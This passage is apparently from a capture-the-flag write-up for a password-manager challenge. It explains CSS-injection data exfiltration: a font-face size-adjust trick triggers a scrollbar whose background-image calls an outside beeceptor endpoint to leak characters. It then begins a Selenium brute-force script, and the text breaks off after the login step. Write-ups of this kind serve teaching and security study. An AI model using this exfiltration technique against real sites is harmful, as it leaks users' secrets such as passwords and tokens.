 We can continue on that way!

### Crafting our payload

It's cool we can create a scrollbar, but what about generating a scrollbar when a font is loaded? On ``font-face`` [documentation](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face), we can see ``size-adjust`` descriptor which modify the size of characters affected by the font.

How can we use it? It's pretty easy, if we really increase the size of the character affected by the font, it will create a scrollbar and with ``#p1::-webkit-scrollbar`` we can make a request to our endpoint. So we have all we need!

Here is our exploit:
```css
@font-face{
  font-family:toto;
  src:url(/static/fonts/Georgia.ttf); /* This source is allowed, found in /static/bootstrap.css */
  size-adjust:1000%; /* Increase a lot the char size */
  unicode-range:U+0041; /* Unicode for A */
}

#p1{
  overflow:auto;
  width:150px; /* Increase width to be sure that the scrollbar doesn't spawn if font not loaded */
  height:60px; /* Same */
  font-family: toto;
}

/* Detect scrollbar */
#p1::-webkit-scrollbar{
    background-image: url(https://fcsc2022.free.beeceptor.com?A); /* Exfiltrate char */
}
```

We have now to bruteforce the chars, we can make a little Python code:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import string
import time
import random
from selenium import webdriver
from selenium.webdriver.firefox.options import Options as FirefoxOptions

evil_endpoint = "https://fcsc2022.free.beeceptor.com/"

# Uppercase + lowercase + digits
chars = string.ascii_letters + string.digits 

print(f"[\x1b[92m+\x1b[0m] Starting exploit")

# Generating random username 
username = "".join([random.choice(chars) for k in range(10)])
password = "P4sswordpass"

# Creating driver
options = FirefoxOptions()
options.add_argument("--headless")
driver = webdriver.Firefox(options=options)

# Login with credentials
driver.get("https://cloud-password-manager.france-cybersecurity-challenge.fr/login")
driver.find_element_by_name("username").send_keys(username)
driver.find_element_by_name("password").send_keys(password)
driver.find_element_by_tag_name("form").submit()
```